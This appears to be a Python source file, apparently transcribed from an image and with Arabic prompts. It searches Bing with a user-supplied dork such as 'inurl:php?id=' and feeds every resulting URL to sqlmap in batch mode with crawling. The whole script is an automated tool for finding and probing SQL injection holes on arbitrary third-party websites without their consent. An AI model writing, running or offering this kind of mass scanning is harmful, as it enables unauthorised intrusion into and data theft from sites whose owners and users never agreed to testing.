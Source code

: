 import requests
from bs4 import BeautifulSoup
import subprocess
import time

def search_bing(dork, max_results=20):
    headers = {"User-Agent": "Mozilla/5.0"}
    urls = []
    for page in range(0, max_results, 10):
        url = f"https://www.bing.com/search?q={dork}&first={page+1}"
        resp = requests.get(url, headers=headers)
        soup = BeautifulSoup(resp.text, "html.parser")
        for h2 in soup.find_all("h2"):
            a = h2.find("a")
            if a and a['href'].startswith("http"):
                urls.append(a['href'])
        time.sleep(1)
    return urls

def run_sqlmap(url):
    print(f"\n[+] اختبار الرابط: {url}")
    cmd = ["sqlmap", "-u", url, "--batch", "--crawl=1", "--level=1", "--risk=1"]
    try:
        subprocess.run(cmd)
    except Exception as e:
        print(f"خطأ أثناء تشغيل sqlmap: {e}")

if __name__ == "__main__":
    dork = input("أدخل Google Dork (مثال: inurl:php?id=): ")
    print("\n[+] البحث عن روابط...")
    results = search_bing(dork)
    print(f"\n[+] تم العثور على {len(results)} رابط:")
    for i, url in enumerate(results, 1):
        print(f"{i}. {url}")
    for url in results:
        run_sqlmap(url)
